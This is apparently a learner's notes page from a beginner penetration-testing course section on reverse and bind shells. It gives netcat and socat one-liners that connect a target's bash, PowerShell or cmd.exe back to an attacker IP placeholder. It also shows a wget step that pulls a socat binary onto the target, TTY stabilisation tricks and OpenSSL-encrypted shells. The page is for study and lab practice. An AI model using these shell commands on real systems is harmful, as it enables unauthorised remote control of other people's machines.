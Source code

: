 ```yaml
---
description: Section nine in Complete Beginner learning path.
---
```


# 9. What the Shell?

### Introduction

At a high level, there are two kinds of shell that are important when exploiting a target: reverse shells, and bind shells.

A reverse shell is when a target is forced to execute code that will connect back to your computer. On your own PC you will need to run a listener to receive the connection. Reverse shells are good to bypass firewall rules, however, you will need to configure your own network to accept the shell.

A bind shell is when the code executed on the target starts a listener attached to a shell on the target. This is then open on the internet which allows you to connect to the open port and obtain RCE. This does not require any configuration on your machine but it may be blocked by firewalls.

### Reverse Shells

To set up a very, very basic reverse shell, run the command `sudo nc -lvnp [port_number]` on your machine, and run the command `nc [local_ip] [port_number] -e /bin/bash` on the target machine.

The syntax for netcat listener breaks down to:

* \-l : tells netcat it will be a listener
* \-v : request verbose output
* \-n : tells netcat not to resolve hostnames or use DNS
* \-p : indicates port specification follows

If you use a port number below port 1024 you will need to run this using `sudo`.

For a basic reverse shell listening using socat, the syntax is: `socat TCP-L:[port] -`. This takes two points and connects them together. We can use the following command on Windows to connect back to this: `socat TCP:[LOCAL_IP]:[LOCAL_PORT] EXEC:powershell.exe,pipes`. The "pipes" option is used to force PowerShell to use Unix standard input and output. The equivalent command in Linux is: `socat TCP:[LOCAL_IP]:[LOCAL_PORT] EXEC:"bash -li"`.

### Bind Shells

To set up a very, very basic bind shell, run the command `nc -lvnp [port_number] -e "cmd.exe"` on the target machine and run `nc [IP_ADDR] [port_number]` on your attacking machine.

To get a bind shell socat listener, we can run the following on Linux: `socat TCP-L:[PORT] EXEC:"bash -li"`. On Windows, we can run `socat TCP-L:[TARGET_IP]:[TARGET_PORT]` to achieve the same result.

### Shell Stabilisation

Using Python:

1. Run `python -c 'import pty;pty.spawn("/bin/bash")'` which uses Python to spawn a better bash shell. This may depend on the version of `python` on the machine, to account for this, just replace the initial `python` with `python2` or `python3`.
2. Run `export TERM=xterm`, which will give us access to commands like `clear`.
3. Finally, background this shell using `CTRL + Z`, in your own terminal now use `stty raw -echo; fg`. This turns off our own terminal echo (giving access to autocompletes, arrow keys and `CTRL + C` process kill). This foregrounds the shell & completes the process.

Note: if this shell dies you will need to type `reset` and hit enter to restore your shell.

Using rlwrap:

rlwrap gives access to history, tab autocomplete, and the arrow keys immediately on getting the shell; however, manual stabilisation must be used to be able to use `CTRL + C` inside the shell. To install this run: `sudo apt install rlwrap`. To use rlwrap, invoke `rlwrap nc -lvnp [port_number]`.&#x20;

This method is useful when dealing with Windows shells, when dealing with a Linux target you can fully stablise by following step 3 of the Python technique; background the shell and run `stty raw -echo; fg`.

Using Socat:

Socat will only work on Linux for stablisation. To use this method a socat static compiled binary must be uploaded to the target, this can be done using `sudo python3 -m http.server 80` on your attacking machine and `wget [IP_ADDR]/socat -O /tmp/socat` on the target machine.

With these techniques it can also be useful to change terminal size. To do this, open another terminal and run stty -a, this will show a number of "rows" and "columns". Back in the reverse/bind shell, run `stty rows [NUMBER]` and then `stty cols [NUMBER]`, replacing `[NUMBER]` with the values you got from your own terminal.

To get a fully stable Linux tty reverse shell using socat, we can run: ``socat TCP-L:[PORT] FILE:`tty`,raw,echo=0``.

### Socat Encrypted Shells

Socat can create both bind and reverse encrypted shells. Encrypted shells cannot be spied on. Firstly, we need to generate a certificate to use encrypted shells, we should run this on our attacking machine:

```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

This creates a 2048 bit RSA key and matching cert, valid for just under a year. When this command runs, it will ask for info, this can be left blank or filled with nonsense. The two created files then need to be merged into a `.pem` file:

```
cat shell.key shell.crt > shell.pem
```

Now, when we set up the reverse shell listener, we use:

```
socat OPENSSL-LISTEN:[PORT],cert=shell.pem,verify=0
```

Here, the `verify=0` tag tells the connection not to bother trying to validate the certificate. The certificate must be used on whatever device is listening. To connect back to this we use:

```
socat OPENSSL:[LOCAL_IP]:[LOCAL_PORT],verify=0 EXEC:/bin/bash
```

The same technique applies for a bind shell, on the target run:

```
socat OPENSSL-LISTEN:[PORT],cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

On the attacker run:

```
socat OPENSSL:[TARGET_IP]:[TARGET_PORT],verify=0
```
